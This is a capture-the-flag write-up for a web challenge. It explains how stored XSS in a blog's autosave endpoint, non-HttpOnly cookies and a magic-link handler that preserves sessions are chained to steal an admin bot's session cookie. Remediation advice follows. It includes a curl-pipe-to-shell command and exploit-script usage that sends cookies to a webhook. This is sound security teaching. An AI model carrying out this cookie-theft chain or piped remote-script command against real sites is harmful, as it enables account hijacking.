

## Overview

**Personal Blog** is a web challenge featuring a Node.js/Express blog application with a bot that simulates an admin user visiting reported URLs. The goal is to steal the admin's session and access the `/flag` endpoint.

| Category | Difficulty | Flag |
|----------|------------|------|
| Web Security | Medium | `uoftctf{533M5_l1k3_17_W4snt_50_p3r50n41...}` |

---

## Reconnaissance

The application consists of:
- A web server (Express.js with EJS templating)
- An admin bot (Puppeteer-based browser automation)

**Key Features:**
- 🔐 User registration and login
- 📝 Blog post creation with a rich text editor
- 💾 Auto-save functionality for draft posts
- ✨ Magic login links for passwordless authentication
- 🚨 URL reporting system (admin bot visits reported URLs)
- 🚩 `/flag` endpoint (admin-only access)

---

## Vulnerability Analysis

After analyzing the source code, several vulnerabilities were identified:

### Vulnerability #1: Stored XSS via Unsanitized Draft Content

**Location:** `web/views/editor.ejs` (Line 13)

The editor template renders `draftContent` using EJS's **unescaped output**:

```html
<div id="editor" ... contenteditable="true"><%- draftContent %></div>
```

> [!WARNING]
> The `<%-` tag outputs **RAW HTML** without escaping, unlike `<%=` which escapes special characters.

### Vulnerability #2: Autosave Endpoint Lacks Sanitization

**Location:** `web/server.js` (Lines 453-468)

The `/api/autosave` endpoint stores raw user input **without sanitization**:

```javascript
app.post('/api/autosave', requireLogin, (req, res) => {
  // ...
  const rawContent = String(req.body.content || '');
  post.draftContent = rawContent;  // NO SANITIZATION!
  // ...
});
```

Compare this to `/api/save` which properly sanitizes:

```javascript
app.post('/api/save', requireLogin, (req, res) => {
  // ...
  const rawContent = String(req.body.content || '');
  const sanitized = sanitizeHtml(rawContent);  // DOMPurify sanitization
  post.savedContent = sanitized;
  // ...
});
```

### Vulnerability #3: Non-HttpOnly Cookies

**Location:** `web/server.js` (Lines 95-101)

```javascript
function cookieOptions() {
  return {
    httpOnly: false,  // VULNERABLE! Cookies accessible via JavaScript
    sameSite: 'Lax',
    path: '/'
  };
}
```

With `httpOnly` set to `false`, `document.cookie` is accessible from JavaScript, making **cookie theft via XSS** possible.

### Vulnerability #4: Magic Link Session Preservation

**Location:** `web/server.js` (Lines 485-503)

When a user logs in via a magic link, the **previous session is preserved**:

```javascript
app.get('/magic/:token', (req, res) => {
  // ...
  const existingSid = req.cookies.sid;
  if (existingSid) {
    res.cookie('sid_prev', existingSid, cookieOptions());  // Previous session saved!
  }
  const sid = createSession(db, record.userId);
  res.cookie('sid', sid, cookieOptions());
  
  const target = safeRedirect(req.query.redirect);
  return res.redirect(target);
});
```

> [!IMPORTANT]
> If the admin (logged in with their session) visits a magic link, their admin session gets saved to `sid_prev`, and they get a new session for the magic link's user account.

---

## Attack Chain

The exploit combines all vulnerabilities into a **session hijacking attack**:



---

## Exploitation

### Step 1: Create Account and Login

Register a new account and login to get a valid session.

### Step 2: Inject XSS Payload via Autosave

Create a new post, then inject XSS via the autosave API:

```http
POST /api/autosave
Content-Type: application/json

{
  "postId": "<post_id>",
  "content": ""
}
```

The XSS payload uses an `` tag with an `onerror` handler that sends all cookies to an attacker-controlled webhook.

### Step 3: Generate Magic Link

Navigate to `/account` and generate a magic login link:

```http
POST /magic/generate
```

### Step 4: Report Exploit URL

Submit the following URL to the report page:

```
/magic/<token>?redirect=/edit/<post_id>
```

Solve the Proof of Work challenge if required:

```bash
curl -sSfL https://pwn.red/pow | sh -s <challenge>
```

### Step 5: Capture Admin Session

When the admin bot visits the exploit URL:

1. Bot loads `/magic/<token>` (has admin `sid` in cookies)
2. Magic link handler saves admin `sid` to `sid_prev`
3. Bot gets new session for attacker's account
4. Bot redirects to `/edit/<post_id>`
5. Editor page renders attacker's XSS payload
6. XSS executes and sends cookies to attacker's webhook
7. Attacker receives: `sid_prev=<admin_session>; sid=<attacker_session>`

### Step 6: Retrieve Flag

Use the captured admin session to access the flag endpoint:

```bash
curl --cookie "sid=<admin_session>" http://target/flag
```

**Result:** `uoftctf{533M5_l1k3_17_W4snt_50_p3r50n41...}` 🚩

---

## Exploit Script

A full exploit script was created to automate this attack:

```python
# Usage:
# Generate exploit URL (requires webhook to receive cookie)
python3 exploit.py https://webhook.site/your-uuid

# Get flag with captured admin session
python3 exploit.py dummy <admin_sid>
```

The script:
1. Registers a new user with random credentials
2. Logs in and creates a post
3. Injects XSS payload via autosave API
4. Generates a magic login link
5. Outputs the exploit URL for submission
6. Can retrieve flag using captured admin session

---

## Remediation

| Issue | Fix |
|-------|-----|
| **Unescaped output** | Change `<%- draftContent %>` to `<%= draftContent %>` |
| **Missing sanitization** | Apply DOMPurify in `/api/autosave` like `/api/save` |
| **Accessible cookies** | Set `httpOnly: true` in cookie options |
| **Session preservation** | Don't save previous session on magic link login |
| **Cross-site attacks** | Consider `SameSite=Strict` for additional protection |

---

## Conclusion

This challenge demonstrated a sophisticated attack chain combining:
- 💉 **Stored XSS** through improper sanitization
- 🔓 **Session hijacking** via magic link abuse
- 🍪 **Cookie theft** through non-httpOnly cookies

The key insight was recognizing that the autosave endpoint bypassed sanitization, and that magic links preserved previous sessions. This allowed an attacker to trick the admin into visiting their XSS-infected editor page while their admin session was exposed in the `sid_prev` cookie.

**Flag:** `uoftctf{533M5_l1k3_17_W4snt_50_p3r50n41...}`
